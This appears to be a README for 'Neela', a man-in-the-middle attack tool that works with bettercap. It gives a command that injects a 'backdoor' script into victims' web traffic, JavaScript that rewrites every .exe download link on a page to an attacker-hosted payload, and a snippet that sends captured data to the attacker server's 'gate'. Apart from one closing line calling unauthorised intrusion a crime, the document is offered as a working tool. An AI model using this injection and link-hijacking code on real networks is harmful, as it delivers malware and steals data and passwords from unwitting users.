 ![Neela LAN](https://s31.postimg.org/40czeg3zv/home.png)

###### Resume:

Neela, MITM extension tools can execute a routine.

A routine is execution of multiple steps, for hijack download binary... hijack account password ... and more.

###### Require:
    - express
    - body-parser
    - colors
    - cookie-parser
    - cookie-session
    - dns
    - ent
    - express-session
    - ip
    - socket.io
    - os
    - request-ip

##### Start server

```javascript
node neela.js
```

![Neela](https://s31.postimg.org/46463yy8b/Capture_d_e_cran_2016_07_07_a_16_27_26.png)

##### Hacking with bettercap

```
--proxy-module injectjs --js-url "http://SERV_IP:3000/backdoor"
```

![bettercap with Neela](https://s32.postimg.org/duji0l405/Capture_d_e_cran_2016_07_07_a_16_25_50.png)

##### Make Routine & Hack !
* /exploit/routine

```javascript
if(document.getElementsByTagName('a') !== undefined){
  var list = document.getElementsByTagName('a');
  for(var x = 0;x < list.length;x++){
    console.log(list[x].href);
    var current = list[x].href;
    if(current.indexOf('.exe') > -1){
      list[x].href = 'http://IP_SERVER:3000/payload'
    }
  }
}

```

##### Gate receipt

```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://SERV_IP:3000/gate/'+encoded, false);
req.send(null);
```
![Neela](https://s31.postimg.org/wdfic47wr/Capture_d_e_cran_2016_07_07_a_15_32_28.png)

##### Replace download link
- Select replace_exe.neela routine
- Update /exploit/routine/exe/hacked.exe

![Neela replace](https://s31.postimg.org/worb3hngr/Capture_d_e_cran_2016_07_07_a_16_46_56.png)

##### Neela Logs

![Neela logs](https://s31.postimg.org/qgshncf17/logs.png)


reminder, infiltrate, monitor, computer system without authorization is a crime
